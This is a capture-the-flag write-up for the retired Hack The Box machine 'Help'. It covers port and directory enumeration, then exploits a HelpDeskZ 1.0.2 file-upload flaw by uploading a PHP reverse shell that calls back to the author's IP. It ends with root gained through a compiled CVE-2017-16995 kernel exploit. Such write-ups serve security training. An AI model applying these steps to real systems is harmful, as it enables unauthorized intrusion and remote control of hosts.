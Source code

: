 # Help

This is the write-up for the box Help that got retired at the 8th June 2019.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.121    help.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/help.nmap 10.10.10.121
```

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the webpage that is running on port 80 we see the Apache2 default page, so we use gobuster to enumerate hidden paths:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://10.10.10.121
```

We get a path called **/support** that shows us a ticket system with the name **Help Desk Software by HelpDeskZ**.
So we can check if there are known vulnerabilities for this software:
```markdown
searchsploit helpdeskz
```

There are two vulnerabilites that both work for the version lower than _1.0.2_ so we need to find out what the version is.

- HelpDeskZ 1.0.2 - Arbitrary File Upload
- HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download

After searching for this application we find out that it is a open-source program that is hosted on GitHub. Downloading the README.md of the webpage works and discloses it is version 1.0.2.


### Arbitratry File Upload exploit

Analyzing the **Arbitratry File Upload exploit** we can see how the application obfuscates filenames:
```markdown
/controllers <https://github.com/evolutionscript/HelpDeskZ-1.0/tree/006662bb856e126a38f2bb76df44a2e4e3d37350/controllers>/*submit_ticket_controller.php - Line 141*
$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
```

It takes the file name, the system time and the extension and combining all of them to a MD5 hashsum.
When we upload a file we know the name and the upload time and thus can calculate this ourselves.

Now lets _Submit a Ticket_ and attach a PHP file with it. In my case I am going to take the script _php-reverse-shell.php_ and let it call my IP and port 9001.

![Uploading a PHP file](https://kyuu-ji.github.io/htb-write-up/help/help_file-upload.png)

It says that the file is not allowed but the author of the script said it gets uploaded anyway so you can ignore that warning.

Now we could execute the Python exploit but it won't work because the script looks for the time on our local machine and not the one on the box. 
We can find out the time of the server by analyzing any HTTP response with Burpsuite.

We will change the Python exploit so it makes a response to the box and takes its time instead of ours. This script will be in this folder named **exploit-help.py**.
```markdown
python exploit-help.py http://10.10.10.121/support/uploads/tickets/ php-reverse-shell.php
```

After uploading the PHP reverse shell again and then executing the exploit we get a reverse shell!

## Privilege Escalation

We are logged in as the user _help_ and can read user.txt and should now execute any enumeration script to get an attack surface.
What strikes out is that the kernel version 4.4.0-116-generic is old and has privilege escalation vulnerabilites.

We can copy [CVE-2017-16995](https://www.exploit-db.com/exploits/44298) and compile it on the box:
```markdown
gcc privesc.c -o privesc
```

After executing it, we are root on the box!
